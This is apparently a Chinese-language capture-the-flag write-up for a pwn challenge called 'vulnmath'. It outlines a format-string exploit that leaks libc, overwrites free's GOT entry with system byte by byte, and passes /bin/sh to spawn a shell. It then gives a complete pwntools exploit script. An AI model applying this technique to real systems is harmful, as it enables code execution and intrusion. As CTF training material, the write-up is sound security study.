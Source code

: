### vulnmath

> [附件](./vulnmath)

算是本次比赛比较难的一道题了，没有plt表，通过分析发现输入的buf在heap段，程序又存6次利用格式化字符串漏洞的机会，程序结束前会free掉最开始malloc的chunk 这时利用思路已经有了

1. leak出libc，计算system函数地址
2. 将free函数got表值写成system地址（因为payload有长度限制，所以可以分成4次利用，一次写一个字节）
3. 最后输入/bin/sh，来getshell

[Exploit script:](math.py)

```python
from pwn import *
#context.log_level='debug'

p = process('vulnmath')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('vulnmath')

p.recvuntil('> ')
p.sendline('%23$p')
p.recvuntil('Incorrect!\n')
base = int(p.recvline(),16)-247-libc.symbols['__libc_start_main']
sys = base + libc.symbols['system']


pay = fmtstr_payload(6,{elf.got['free']:sys&0xff},write_size='int')
p.recvuntil('> ')
p.sendline(pay)

pay = fmtstr_payload(6,{elf.got['free']+1:sys>>8&0xff},write_size='int')
p.recvuntil('> ')
p.sendline(pay)

pay = fmtstr_payload(6,{elf.got['free']+2:sys>>16&0xff},write_size='int')
p.recvuntil('> ')
p.sendline(pay)

pay = fmtstr_payload(6,{elf.got['free']+3:sys>>24&0xff},write_size='int')
p.recvuntil('> ')
p.sendline(pay)

# gdb.attach(p)
p.recvuntil('> ')
p.sendline('/bin/sh\x00')
# gdb.attach(p)
p.interactive()
```

